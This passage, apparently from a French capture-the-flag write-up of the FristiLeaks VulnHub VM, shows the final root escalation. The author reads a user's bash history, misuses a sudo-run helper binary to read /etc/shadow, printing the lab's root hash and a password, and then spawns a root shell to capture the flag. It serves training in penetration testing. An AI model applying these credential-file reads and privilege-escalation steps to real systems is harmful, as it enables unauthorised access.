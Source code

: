 L'historique des commandes Unix de l'utilisateur fristigod pourra sans doute nous aiguiller quant à l'utilisation de doCom.

```console
-bash-4.1$ cat .bash_history
--snip--
./doCom 
sudo -u fristi ./doCom ls /
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
sudo /var/fristigod/.secret_admin_stuff/doCom
exit
sudo /var/fristigod/.secret_admin_stuff/doCom
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
--snip--
```

Il est ainsi possible d'effectuer des opérations réservées à root, telles que la lecture du fichier /etc/shadow.

```console
-bash-4.1$ sudo -u fristi ./doCom "head -n1 /etc/shadow"
sudo -u fristi ./doCom "head -n1 /etc/shadow"
[sudo] password for fristigod: LetThereBeFristi!

root:$6$qAoeosiW$fsOy8H/VKux.9K0T3Ww2D3FPNlO5LAaFytx/6t69Q7LPDSS/nNiP4xzq0Qab.Iz3uy5fYdH3Aw/K5v3ZMhRRH0:16756:0:99999:7:::
```

Nous y sommes presque !

```console
-bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom "sudo su"
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom "sudo su"
[root@localhost .secret_admin_stuff]# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Il ne reste plus qu'à lire le mot final signé [Ar0xA](https://tldr.nu/), et à le remercier pour cette VM FristiLeaks !

```console
[root@localhost ~]# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```
